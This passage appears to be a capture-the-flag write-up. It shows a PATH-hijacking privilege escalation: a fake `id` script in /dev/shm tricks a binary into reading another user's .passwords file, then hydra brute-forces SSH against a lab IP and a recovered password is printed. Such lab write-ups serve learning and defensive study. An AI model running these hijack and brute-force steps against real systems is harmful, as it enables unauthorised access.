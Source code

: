 ```ad-summary
- It executes the `id` command to extract the current user and then tries to access a `.passwords` file in that user’s home directory.

2. `.passwords` File:

- Located at `/home/think/.passwords`.
- Permissions: Only accessible by `root` and the `think` user.
- Goal: We need to trick the binary into reading `.passwords`

So, in order to exploit that, we need to reproduce the following steps:


1. Modify the `$PATH` Variable:

- First, use the `id` command to generate an output and replace the username with username `think` , we can use `echo` command to replicate this:

`echo "uid=33(think) gid=33(think) groups=33(think)"`

- Create a malicious `id` binary in a directory you control (e.g., `/dev/shm`)

$ `c ` 
$ `echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /dev/shm/id` # echoe's a uid in the context of user "think"  
$ `chmod +x /dev/shm/id`

- Adjust `$PATH` to include this directory `/dev/shm` at the beginning so that the OS will be tricked that the binary `id` is coming from `/dev/shm` :

`export PATH=/dev/shm:$PATH`
`echo $PATH`

Now that `/dev/shm` is in the **PATH** variable, we can now execute the binary:

![](cybersecurity/images/Pasted%2520image%252020241202150957.png)

We can use these passwords to bruteforce `think` ssh:

`hydra -l think -P passwords.txt 10.10.14.183 ssh`

![](cybersecurity/images/Pasted%2520image%252020241202151102.png)

We got the password!

`think`:`josemario.AKA(think)`
```

Now, let's log in to ssh as think:

![](cybersecurity/images/Pasted%2520image%252020241202151159.png)
